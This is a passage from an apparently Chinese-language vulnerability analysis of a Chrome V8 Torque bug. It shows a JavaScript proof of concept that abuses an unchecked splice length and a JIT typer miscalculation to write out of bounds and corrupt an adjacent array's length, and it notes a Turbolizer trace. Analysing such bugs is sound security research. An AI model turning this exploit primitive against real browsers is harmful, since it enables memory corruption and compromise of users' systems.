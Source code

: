 ```javascript

// No length check on `Array.prototype.splice`, `giant_array.length` is now
// 0x3ffffff, which is `FixedDoubleArray::kMaxLength + 1`
giant_array.splice(giant_array.length, 0, 3.3, 3.3, 3.3);

length_as_double =
    new Float64Array(new BigUint64Array([0x2424242400000000n]).buffer)[0];

function trigger(array) {
  var x = array.length;
  x -= 67108861;
  x = Math.max(x, 0);
  x *= 6;
  x -= 5;
  x = Math.max(x, 0); // [1]

  let corrupting_array = [0.1, 0.1];
  let corrupted_array = [0.1];

  corrupting_array[x] = length_as_double;
  return [corrupting_array, corrupted_array];
}

for (let i = 0; i < 30000; ++i) {
  trigger(giant_array);
}
```



在Turbolizer  V8.TFTyper 137 中可以看到Poc2的执行过程：

![image-20200907183228650](..\image\2020-09-07-chrome-Torque漏洞分析\2.png)
